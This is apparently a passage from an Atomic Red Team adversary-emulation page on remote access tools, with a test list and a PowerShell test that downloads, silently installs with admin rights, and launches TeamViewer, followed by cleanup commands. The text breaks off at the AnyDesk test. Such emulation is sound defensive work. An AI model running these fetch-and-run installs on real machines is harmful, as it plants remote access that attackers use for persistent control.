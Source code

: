 - [Atomic Test #11 - MSP360 Connect Execution](#atomic-test-11---msp360-connect-execution)

- [Atomic Test #12 - RustDesk Files Detected Test on Windows](#atomic-test-12---rustdesk-files-detected-test-on-windows)

- [Atomic Test #13 - Splashtop Execution](#atomic-test-13---splashtop-execution)

- [Atomic Test #14 - Splashtop Streamer Execution](#atomic-test-14---splashtop-streamer-execution)

- [Atomic Test #15 - Microsoft App Quick Assist Execution](#atomic-test-15---microsoft-app-quick-assist-execution)


<br/>

## Atomic Test #1 - TeamViewer Files Detected Test on Windows
An adversary may attempt to trick the user into downloading teamviewer and using this to maintain access to the machine. Download of TeamViewer installer will be at the destination location when sucessfully executed.

**Supported Platforms:** Windows


**auto_generated_guid:** 8ca3b96d-8983-4a7f-b125-fc98cc0a2aa0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Invoke-WebRequest -OutFile C:\Users\$env:username\Desktop\TeamViewer_Setup.exe https://download.teamviewer.com/download/TeamViewer_Setup.exe
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Start-Process -Wait $file1 /S; 
Start-Process 'C:\Program Files (x86)\TeamViewer\TeamViewer.exe'
```

#### Cleanup Commands:
```powershell
$file = 'C:\Program Files (x86)\TeamViewer\uninstall.exe'
if(Test-Path $file){ Start-Process $file "/S" -ErrorAction Ignore | Out-Null }
$file1 = "C:\Users\" + $env:username + "\Desktop\TeamViewer_Setup.exe"
Remove-Item $file1 -ErrorAction Ignore | Out-Null
```





<br/>
<br/>

## Atomic Test #2 - AnyDesk Files Detected Test on Windows
An adversary may attempt to trick the user into downloading AnyDesk and use to establish C2. Download of AnyDesk installer will be at the destination location and ran when sucessfully executed.
